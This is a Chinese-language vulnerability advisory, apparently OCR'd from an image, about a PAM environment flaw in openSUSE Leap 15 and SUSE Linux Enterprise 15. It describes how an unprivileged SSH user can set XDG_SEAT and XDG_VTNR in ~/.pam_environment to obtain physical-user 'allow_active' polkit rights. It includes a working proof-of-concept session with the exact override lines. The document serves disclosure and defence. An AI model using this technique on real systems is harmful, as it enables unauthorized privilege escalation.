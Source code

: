 分析  
  
在我们最近对 OpenSSH 的研究中，我们注意到，当非特权用户通过 sshd 登录到 openSUSE Leap 15 或 SUSE Linux Enterprise 15 时：  
- PAM 的 pam_env 模块（来自 Linux-PAM 1.3.0）默认读取该用户的 ~/.pam_environment 文件（即 pam_env 的 "user_readenv" 配置选项默认值为 1）；  
  
- pam_env 模块首先由 sshd 的 do_pam_setcred() 调用，作为 PAM 的 "auth" 堆栈的一部分（来自 /etc/pam.d/common-auth）；  
  
- pam_systemd 模块随后由 sshd 的 do_pam_session() 调用，作为 PAM 的 "session" 堆栈的一部分（来自 /etc/pam.d/common-session）。  
  
因此，通过 sshd 登录的非特权攻击者可以强制 pam_env 模块将任意变量添加到 PAM 的环境中（首先将它们写入 ~/.pam_environment），然后这些变量通过 pam_getenv() 返回给 pam_systemd 模块。特别是，pam_systemd 模块会调用 pam_getenv() 来获取 XDG_SEAT 和 XDG_VTNR 变量，这立即让我们想起了 Jann Horn 在 systemd 中的优秀漏洞 CVE-2019-3842：  
  
https://bugs.launchpad.net/ubuntu/+source/systemd/+bug/1812316  
  
简而言之，通过在 ~/.pam_environment 中设置 XDG_SEAT=seat0 和 XDG_VTNR=1，通过 sshd 登录到 openSUSE Leap 15 或 SUSE Linux Enterprise 15 的非特权攻击者可以假装他们实际上是坐在计算机前的物理用户；即，用 polkit 的术语来说，是一个 "allow_active" 用户。  
  
漏洞验证  
  
作为具体结果，这样的攻击者可以执行所有通常为物理用户保留的 "allow_active yes" polkit 操作。例如，在以下漏洞验证中，攻击者调用 systemd-logind 的 CanReboot() 方法来确定他们是否被认证为非特权的 "allow_any" 用户（CanReboot() 返回 "challenge"）或物理的 "allow_active" 用户（CanReboot() 返回 "yes"）：  
```
attacker# ssh -i id_ed25519 nobody@victim

victim> grep PRETTY_NAME= /etc/os-release
PRETTY_NAME="openSUSE Leap 15.6"

victim> id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)

victim> cat /usr/share/polkit-1/actions/org.freedesktop.login1.policy
...xml
        <action id="org.freedesktop.login1.reboot">
                <description gettext-domain="systemd">Reboot the system</description>
...
                        <allow_any>auth_admin_keep</allow_any>
                        <allow_inactive>auth_admin_keep</allow_inactive>
                        <allow_active>yes</allow_active>
...

victim> gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method
org.freedesktop.login1.Manager.CanReboot
('challenge',)

victim> { echo 'XDG_SEAT OVERRIDE=seat0'; echo 'XDG_VTNR OVERRIDE=1'; } > .pam_environment

victim> exit

attacker# ssh -i id_ed25519 nobody@victim

victim> gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method
org.freedesktop.login1.Manager.CanReboot
('yes',)
```  
  